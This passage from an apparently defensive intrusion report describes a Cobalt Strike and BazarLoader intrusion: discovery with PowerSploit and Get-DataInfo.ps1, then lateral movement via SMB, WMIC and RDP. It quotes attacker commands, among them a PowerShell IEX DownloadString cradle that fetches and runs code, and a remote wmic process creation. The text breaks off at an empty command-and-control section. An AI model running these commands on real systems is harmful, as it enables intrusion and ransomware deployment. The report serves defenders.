 Throughout the intrusion the threat actor checked the time of systems with:

C:\Windows\system32\cmd.exe /C time

From an svchost process injected with a Cobalt Strike beacon, SMB scanning was performed across the environment.

From the domain controller the threat actor ran an encoded PowerShell command to review the size and condition of hard drives across the environment.


Powersploit modules like Get-NetComputer were seen used by the threat actor from the domain controller

IEX (New- Object Net.Webclient).DownloadString( 'http://127.0.0.1:36595/' ); Get-NetComputer -ping -operatingsystem *server*

The script Get-DataInfo.ps1, which has been used in many intrusions this past year, was also employed. This file was started by the use of start.bat, which has been seen paired with this script repeatedly.

C :\Windows\system32\cmd.exe /c "C:\\Users\\info\\start.bat"

powershell .exe -executionpolicy remotesigned -File .\ Get-DataInfo .ps1 method

The contents of Get-DataInfo.ps1 provide the threat actor with very specific details of the environment. This includes things like disk size, connectivity, antivirus software, and backup software.

This script was first reported used by threat actors deploying the Ryuk ransomware strain.

The Microsoft Active Directory PowerShell module was also imported and used for discovery tasks.

# Lateral Movement

For lateral movement the threat actors relied heavily on copying executable files over SMB and then executing them via remote WMIC calls

C:\Windows\system32\cmd.exe /C wmic /node:"DOMAINCONTROLLER" process call create "C:\3.exe"

While executables and wmic were the preferred options for the threat actor, they did employ several other techniques.

Remote Cobalt Strike beacons were started with services and PowerShell several times in the environment.

During the final stages the threat actor used RDP to move between a few servers as part of their final actions.

At that time, a Cobalt Strike beacon executable was executed as a service on a remote host for testing the final ransom deployment.

# Command and Control

# BazarLoader:


This server was seen communicating with multiple internal systems:
